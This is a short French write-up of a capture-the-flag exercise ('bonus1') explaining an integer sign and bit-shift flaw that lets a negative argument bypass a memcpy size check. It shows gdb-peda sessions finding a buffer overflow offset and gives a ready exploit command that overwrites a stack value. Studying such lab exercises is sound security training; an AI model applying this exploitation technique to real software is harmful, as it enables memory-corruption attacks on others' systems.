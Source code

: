 # Bonux 1 

- On voit que dans le code les bit sont decaler de deux pour calculer la taille
- Le premier bit d'un int sert a savoir si il est negatif ou positif
- Donc tout les nombres negatif seront converti en nombre positif
<pre>
[alarmv@alarm Ressources]$ gdb ./bonus1 
gdb-peda$ pattern create 75
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ disass main
Dump of assembler code for function main:
   <strong>0x08048473</strong> <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
gdb-peda$ b *0x08048478
Breakpoint 1 at 0x8048478
gdb-peda$ r -2147483600 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ x $esp+0x3c
<strong>0xffffd54c:     "AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA"</strong>
gdb-peda$ pattern offset AA0AAFA
AA0AAFA found at offset: <strong>40</strong>
</pre>
- Il faut donc ecrire 44 caractere dans memcpy se qui fait **101100** en binaire
- Avec `<< 2` il faut que le int soit egale a **10000000000000000000000000001011** se qui fait -2147483637
- Donc on peut executé la commande ci contre
```
./bonus1 -2147483637 $(python -c "print('A' * 40 +  '\x46\x4c\x4f\x57')")
```
